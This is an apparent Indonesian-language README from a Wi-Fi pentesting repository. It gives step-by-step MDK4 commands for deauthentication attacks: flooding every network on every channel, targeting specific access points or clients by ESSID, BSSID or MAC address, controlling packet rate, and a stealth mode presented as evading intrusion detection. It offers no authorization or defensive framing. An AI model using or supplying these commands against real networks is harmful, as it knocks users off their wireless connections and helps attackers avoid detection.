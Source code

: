 # MDK4

![MDK4](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/mdk4/img/mdk3_4.jpg)
   
## Penggunaan

**1. Scan Wi-Fi:**

```
sudo airodump-ng [interface]
```

**2. Jalankan MDK4:**

   1. Deauth semua Wi-Fi di semua channel:

      ```
      sudo mdk4 [interface] d -c h
      ```

      Opsi `-c h` mengaktifkan channel hopping pada semua channel `b/g` (1–14). Secara default `MDK4` berpindah antar channel setiap 3 detik.
   2. Deauth semua Wi-Fi yang ada di channel tertentu:

      ```
      sudo mdk4 [interface] d -c [channel]
      ```
   3. Blacklist mode:

      ```
      sudo mdk4 [interface] d -b [file_blacklist] -c [channel]
      ```

      - Blacklist mode hanya melakukan deauth terhadap MAC address yang ada di file `[file_blacklist]`.
      - File `[file_blacklist]` berisi MAC address AP (BSSID) atau client yang akan di-deauth.
   4. Whitelist mode:

      ```
      sudo mdk4 [interface] d -w [file_whitelist] -c [channel]
      ```

      - Whitelist mode melakukan deauth terhadap semua MAC address, kecuali yang ada di file `[file_whitelist]`.
      - File `[file_whitelist]` berisi MAC address AP (BSSID) atau client yang akan dilindungi dari deauth.
   5. Speed control:

      ```
      sudo mdk4 [interface] d -s [speed] -c [channel]
      ```
      Speed control untuk mengatur kecepatan pengiriman paket dalam packets per second (pps). Tanpa opsi `-s`, defaultnya unlimited (tergantung kemampuan hardware).
   6. Mode stealth:

      ```
      sudo mdk4 [interface] d -c [channel] -x
      ```
      Opsi `-x` mengaktifkan IDS stealth dengan menyesuaikan sequence numbers paket untuk menghindari deteksi oleh Intrusion Detection System.
   7. Target AP berdasarkan ESSID:

      ```
      sudo mdk4 [interface] d -E [essid] -c [channel]
      ```
   8. Target AP berdasarkan BSSID:

      ```
      sudo mdk4 [interface] d -B [bssid] -c [channel]
      ```
   9. Target client spesifik:

      ```
      sudo mdk4 [interface] d -S [mac_client] -c [channel]
      ```
   10. Whitelist station spesifik:

      ```
      sudo mdk4 [interface] d -W [mac_client] -c [channel]
      ```

      Whitelist station spesifik akan melakukan deauth terhadap semua client, kecuali client `[mac_client]`.
      
## Video Demonstrasi

[https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z](https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z)
